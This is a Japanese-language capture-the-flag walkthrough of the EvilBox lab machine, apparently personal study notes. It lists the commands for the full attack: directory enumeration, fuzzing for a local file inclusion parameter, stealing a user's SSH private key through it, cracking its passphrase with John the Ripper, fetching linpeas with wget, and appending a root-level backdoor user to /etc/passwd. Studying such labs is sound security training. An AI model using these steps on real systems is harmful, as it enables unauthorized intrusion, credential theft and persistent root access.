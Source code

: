 ## EvilBox(tryHackMe2と似ている) 653~

## 目的
- ユーザフラグ
- ルートフラグ
- 合計２つ
### ポートスキャンまでは同じ
- 22, 80

### Webサイトを見る
- サイトを見ても単なるApacheのサイト

### 隠しファイルを探す
- `gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt -x html,txt,php`
  - $IPでもOK
  - `-x html,txt,php`がなければディレクトリしか表示されない
  - 本の解説には`-x`オプションが付いているが、ここではディレクトリを探しているだけなので、なぜついているのかわからない
  - secretという怪しいディレクトリがある
- ブラウザで`/secret`ディレクトリを見ても真っ白なので、さらに隠しファイルを探してみる
- `gobuster dir -u $URL/secret/ -w /usr/share/wordlists/dirb/common.txt -x html,txt,php`
  - 上の`$URL`は`"http://$IP/secret/"`でもいい。`-x`がなくても、実行できるので注意
  - `evil.php`という怪しいファイルがある
  
### サイトをチェックする
- `evil.php`は明らかに怪しい名前のファイルなので、もしかしたら他の侵入者が設置したかもしれないので見てみるが、何も表示されない

### ローカルファイルインクルード攻撃ができないかチェック
- evil.phpに以下のコードができれば、リンクからコマンドを入力できる。　['page']の部分に正しい単語を見つけてこれば使える。ただし、このコードは今は見れないので注意。
```php
<?php
  $page= $_GET['page'];
  if ($page)
      include $page;
?>
```
- 使えるかどうかわからないので、wfuzzを使ってチェックする
### WFuzz
- ディレクトリトラバーサル攻撃のためwfuzzでファジングする
  - ディレクトリトラバーサル攻撃とは、ユーザが指定するファイル名の検証が不充分であるため、結果として親ディレクトリへのアクセスすることを許してしまう脆弱性を指す
  - ファジングとは、通常想定されていないデータをシステムに与えて、潜在的な脆弱性を検出するテスト手法 
- `wfuzz -u "$URL/secret/evil.php?FUZZ=../../../../etc/passwd" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hw 0`
  - FUZZの部分が順に指定した辞書の単語に入れ替わる
  - ここでは`command`が当てはまったのでローカルファイルインクルード攻撃ができる

### /etc/passwdをみる
- ウェブサイトから
- `view-source:http://192.168.56.110/secret/evil.php?command=/etc/passwd`
- `/etc/shadow`は見ることができない
- ユーザのroot,mowreeが/bin/bashが使えるのがわかる
### 暗号鍵を取得する
- mowreeの暗号鍵を取得する
- `view-source:http://192.168.56.110/secret/evil.php?command=/home/mowree/.ssh/id_rsa`
  - ターゲットサーバの中のフォルダをブラウザから見る
  - 暗号鍵はコピー、コマンド`cat > id_rsa`でペーストしてファイルを作っておく
- `chmod 700 id_rsa`
  
### sshするが失敗する
- パスフレーズが設定されていて失敗する
### 形式を変える
- sedコマンドはPython2系のコマンドをPython3系に書き換えている特殊なもの
- john the ripperで使えるようにフォーマットを変える、うまく変換できるかまず確認してみる
  - `sed -e 's/decodestring/decodebytes/g' /usr/share/john/ssh2john.py | python3 - id_rsa`
- pass_hash.txtを作る
  - `sed -e 's/decodestring/decodebytes/g' /usr/share/john/ssh2john.py | python3 - id_rsa > pass_hash.txt` 
### パスフレーズを解読
- `john --wordlist=/usr/share/wordlists/rockyou.txt pass_hash.txt`
- もしエラーになったら、ファイルが間違っているか、過去に一度解いているため以下のコマンドで過去のパスワードがわかる
  - `john --show 過去に使った暗号ファイル`
### ssh
- `ssh mowree@$IP -i id_rsa`
  - -i:暗号鍵のファイルを指定するオプション

### Linpeasを使う
- Linpeasはルート権限昇格の手がかりを一覧にしてくれるコマンド

### Linpeasを転送する。２通りあるが、いづれの方法でもいい。
- (1)Pythonのサーバを使う
  - ParrotOS側のLinpeasを置いてあるフォルダで`sudo python3 -m http.server 8080`を入力する
  - ターゲットサーバ側で`wget http://192.168.56.102:8080/linpeas.sh`と入力する。注意するのはIPアドレスがParrotOS側であること
  
- (2)scpコマンドを使ってLinpeasを転送する
  - id_rsa,linpeas.shは同じディレクトリにおいて移動する
  - `scp -i id_rsa linpeas.sh mowree@$IP:/tmp`
  - パスワードを聞かれる 
- ファイルが使えるようにする `chmod +x linpeas.sh`
- `./linpeas.sh`
- Linpeasを使うと`/etc/passwd`がwritableになっていて書き換えれることがわかる
```
===Permission in init, init.d systemd, and rc,d

= Hashes inside passwd file? .... No
= Writable passwd file? ......... /etc/passwd is writable
= Credentials in fstab/mtab? .... No
= ~~~~~
```
- `./linpeas.sh > output.txt`
- `cat output.txt`  
### バックドアを仕込む
- passwdファイルに自分のユーザ(root権限を持つ)を書き込んで、いつでも出入りできるようにする
- パスワードを作成する
  - `openssl passwd -1 -salt usersalt`
  - 自分で適当にpasswordを入れる、ここでは`pass`としておく
  - パスワードをコピーしておく
- /etc/passwdに書き込む
  - `>>`は追記なので注意 
  - `echo 'eviluser:ペースト:0:0:root:/root:/bin/bash' >> /etc/passwd`
### フラグの取得
- ユーザを切り替える
  - `su eviluser`
  - パスワードの入力
- `cat /root/root.txt` 
## 初めからする時に削除するもの
- mowreeのhome、user.txt以外は削除
- ParrotユーザのEvilBoxフォルダの中身も削除
- passwdの最終行も削除
  - `sed -e '$d' /etc/passwd`
  - `sed -i -e '$d' /etc/passwd`

